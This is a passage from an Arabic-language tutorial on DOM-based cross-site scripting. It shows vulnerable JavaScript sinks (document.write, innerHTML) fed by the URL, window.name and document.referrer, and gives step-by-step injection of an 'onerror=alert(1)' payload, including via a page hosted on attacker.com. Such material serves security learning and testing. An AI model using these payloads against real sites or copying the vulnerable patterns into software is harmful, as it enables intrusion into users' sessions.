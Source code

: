###### ازاي بحط ليها البايلود :
 أضف الحمولة في أي جزء من الرابط (مثل الاستعلام أو الجزء):
    ```
    https://site.com/page?test=<img src=x onerror=alert(1)>
    ```
  - تحقق مما إذا تم تنفيذ الحمولة عند تحميل الصفحة.

#### الشرح العملي :

----
### `window.name`

###### شكلها في الكود : 
  ```javascript
  let name = window.name;
  document.write(name); // نقطة خطرة
  ```
  - إذا تم تعيين `window.name` إلى `<img src=x onerror=alert(1)>` في نافذة أخرى، فإنه يتم كتابته في DOM.

###### ازاي بحط ليها البايلود :
 1. افتح صفحة أخرى (أو علامة تبويب) ونفذ:
     ```javascript
     window.name = "<img src=x onerror=alert(1)>";
     ```
  2. انتقل إلى الصفحة المستهدفة:
     ```
     window.location = "https://site.com/page";
     ```
  3. تحقق مما إذا تم تنفيذ الحمولة.
#### الشرح العملي :

-----
### `document.referrer`

###### شكلها في الكود : 
```javascript
  let referrer = document.referrer;
  document.getElementById('output').innerHTML = referrer; // نقطة خطرة
```

###### ازاي بحط ليها البايلود :
  
1. أنشئ صفحة خبيثة تحتوي على رابط:
```javascript
<a href="https://site.com/page">Click</a>
```
2. استضف الصفحة على رابط يحتوي على الحمولة  (مثل `https://attacker.com/<img src=x onerror=alert(1)>` )

3. عندما ينقر المستخدم، يتم تمرير الحمولة عبر document.referrer.

#### الشرح العملي :
